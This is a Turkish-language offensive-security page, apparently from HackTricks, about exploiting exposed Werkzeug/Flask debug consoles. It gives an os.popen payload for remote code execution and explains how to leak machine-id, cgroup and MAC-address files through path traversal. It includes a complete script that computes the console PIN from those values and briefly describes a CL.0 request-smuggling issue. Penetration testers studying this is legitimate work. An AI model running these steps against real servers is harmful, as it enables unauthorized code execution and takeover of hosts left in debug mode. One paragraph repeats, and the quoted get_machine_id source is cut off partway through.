 # Werkzeug / Flask Debug

{{#include ../../banners/hacktricks-training.md}}

## Konsol RCE

Eğer hata ayıklama aktifse, `/console` adresine erişmeyi deneyebilir ve RCE elde edebilirsiniz.
```python
__import__('os').popen('whoami').read();
```
![](<../../images/image (117).png>)

Ayrıca internette [şu](https://github.com/its-arun/Werkzeug-Debug-RCE) gibi birkaç exploit veya metasploit'te bir tane var.

## Pin Koruması - Yol Geçişi

Bazı durumlarda **`/console`** uç noktası bir pin ile korunacaktır. Eğer bir **dosya geçişi açığı** varsa, o pini oluşturmak için gerekli tüm bilgileri sızdırabilirsiniz.

### Werkzeug Konsol PIN Açığı

Bunu görmek için uygulamada bir hata sayfası zorlayın:
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
"console locked" senaryosuyla ilgili bir mesaj, Werkzeug'un hata ayıklama arayüzüne erişim sağlanmaya çalışıldığında karşılaşılır ve konsolu kilidini açmak için bir PIN gerekliliğini belirtir. Konsol PIN'ini istismar etmek için, Werkzeug’un hata ayıklama başlatma dosyasında (`__init__.py`) PIN oluşturma algoritmasını analiz etme önerisi yapılmaktadır. PIN oluşturma mekanizması, [**Werkzeug kaynak kodu deposu**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/__init__.py) üzerinden incelenebilir, ancak potansiyel sürüm farklılıkları nedeniyle gerçek sunucu kodunun bir dosya geçiş açığı aracılığıyla temin edilmesi tavsiye edilmektedir.

Konsol PIN'ini istismar etmek için iki set değişken gereklidir: `probably_public_bits` ve `private_bits`:

#### **`probably_public_bits`**

- **`username`**: Flask oturumunu başlatan kullanıcıyı ifade eder.
- **`modname`**: Genellikle `flask.app` olarak belirlenir.
- **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: Genellikle **Flask** olarak çözülür.
- **`getattr(mod, '__file__', None)`**: Flask dizinindeki `app.py`'nin tam yolunu temsil eder (örneğin, `/usr/local/lib/python3.5/dist-packages/flask/app.py`). Eğer `app.py` geçerli değilse, **`app.pyc`** denemek gerekir.

#### **`private_bits`**

- **`uuid.getnode()`**: Mevcut makinenin MAC adresini alır, `str(uuid.getnode())` bunu ondalık formata çevirir.

- Sunucunun MAC adresini **belirlemek için**, uygulamanın kullandığı aktif ağ arayüzünü (örneğin, `ens3`) tanımlamak gerekir. Belirsizlik durumunda, **`/proc/net/arp`** sızdırarak cihaz kimliğini bulmak, ardından **`/sys/class/net/<device id>/address`** üzerinden MAC adresini **çıkarmak** gerekir.
- Onaltılık bir MAC adresinin ondalık formata dönüştürülmesi aşağıda gösterildiği gibi yapılabilir:

```python
# Örnek MAC adresi: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```

- **`get_machine_id()`**: `/etc/machine-id` veya `/proc/sys/kernel/random/boot_id` verilerini, son eğik çizgiden (`/`) sonra `/proc/self/cgroup`'un ilk satırıyla birleştirir.

<details>

<summary>`get_machine_id()` için Kod</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

Gerekli tüm veriler toplandıktan sonra, exploit script'i Werkzeug konsol PIN'ini oluşturmak için çalıştırılabilir:

Gerekli tüm veriler toplandıktan sonra, exploit script'i Werkzeug konsol PIN'ini oluşturmak için çalıştırılabilir. Script, oluşturulan `probably_public_bits` ve `private_bits`'i kullanarak bir hash oluşturur, bu hash daha sonra nihai PIN'i üretmek için ek işleme tabi tutulur. Aşağıda bu süreci gerçekleştiren Python kodu bulunmaktadır:
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
Bu script, birleştirilmiş bitleri hashleyerek, belirli tuzlar (`cookiesalt` ve `pinsalt`) ekleyerek ve çıktıyı formatlayarak PIN'i üretir. `probably_public_bits` ve `private_bits` için gerçek değerlerin hedef sistemden doğru bir şekilde elde edilmesi gerektiğini unutmamak önemlidir, böylece üretilen PIN, Werkzeug konsolunun beklediği ile eşleşir.

> [!TIP]
> Eğer **eski bir sürüm** Werkzeug kullanıyorsanız, **hashing algoritmasını md5** olarak değiştirmeyi deneyin.

## Werkzeug Unicode karakterleri

[**bu sorun**](https://github.com/pallets/werkzeug/issues/2833) üzerinde gözlemlendiği gibi, Werkzeug başlıklarda Unicode karakterleri ile bir isteği kapatmaz. Ve [**bu yazıda**](https://mizu.re/post/twisty-python) açıklandığı gibi, bu bir CL.0 Request Smuggling zafiyetine neden olabilir.

Bunun nedeni, Werkzeug'te bazı **Unicode** karakterlerin gönderilmesinin mümkün olması ve bunun sunucunun **çökmesine** neden olmasıdır. Ancak, HTTP bağlantısı **`Connection: keep-alive`** başlığı ile oluşturulmuşsa, isteğin gövdesi okunmayacak ve bağlantı açık kalacaktır, bu nedenle isteğin **gövdesi** bir sonraki **HTTP isteği** olarak işlenecektir.

## Otomatik Sömürü

{{#ref}}
https://github.com/Ruulian/wconsole_extractor
{{#endref}}

## Referanslar

- [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
- [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
- [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
- [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

{{#include ../../banners/hacktricks-training.md}}
